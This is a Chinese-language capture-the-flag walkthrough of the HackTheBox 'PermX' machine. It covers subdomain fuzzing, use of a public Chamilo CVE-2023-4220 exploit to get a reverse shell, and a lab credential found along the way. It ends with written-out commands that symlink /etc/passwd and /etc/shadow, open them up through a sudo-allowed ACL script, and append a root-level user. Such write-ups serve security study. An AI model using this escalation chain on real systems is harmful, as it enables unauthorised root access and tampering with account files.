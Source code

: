 # PermX

端口扫描

![image-20240729163054151](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729163054151.png)



子域名枚举

```
ffuf -u http://permx.htb -w /home/kali/Desktop/pass/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fw 18 -H "HOST: FUZZ.permx.htb"
```

![image-20240729173256115](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729173256115.png)

发现两个域名www,lms,添加到/etc/hosts文件

![image-20240729173447155](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729173447155.png)

![image-20240729173552571](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729173552571.png)

发现一个登录页面

![image-20240729173606097](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729173606097.png)

网站框架是Chamlio

![image-20240729173857314](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729173857314.png)



攻击脚本https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit

在reverse.php中修改ip和端口

![image-20240729174851149](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729174851149.png)

运行脚本,成功弹shell

![image-20240729174917801](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729174917801.png)



访问/main/inc/lib/javascript/bigupload/files/,发现脚本成功上传

![image-20240729175058691](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729175058691.png)

上传linepeas.sh到/var/www/html目录下

![image-20240729185157746](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729185157746.png)

![image-20240729185533265](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729185533265.png)

运行linpeas.sh

![image-20240729190205921](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729190205921.png)

尝试用mtz/03F6lY3uXAP2bkW8登录

![image-20240729190413715](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729190413715.png)

sudo -l查看可执行的命令

![image-20240729190500653](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729190500653.png)

查看/opt/acl.sh文件

![image-20240729190650293](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729190650293.png)

setfacl是linux设置facl权限位的命令，作用类似chmod,分析文件可知我们通过运行acl.sh来给当前用户目录下文件的设置权限，可以把/etc/sudoers设置为可读可写，但需要设置一个软链接

```
ln -s /etc/passwd passwd
ln -s /etc/shadow shadow
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
sudo /opt/acl.sh mtz rwx /home/mtz/shadow

perl -le 'print crypt("123456","addedsalt")'
openssl passwd -1 test

echo 'test:x:0:0:root:/root:/bin/bash'>>passwd
echo 'test:$1$ulIlUQk7$tN.fX9/6zYfyYWgfqvqFX.:19778:0:99999:7:::'>>shadow

```



![image-20240729202140005](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240729202140005.png)





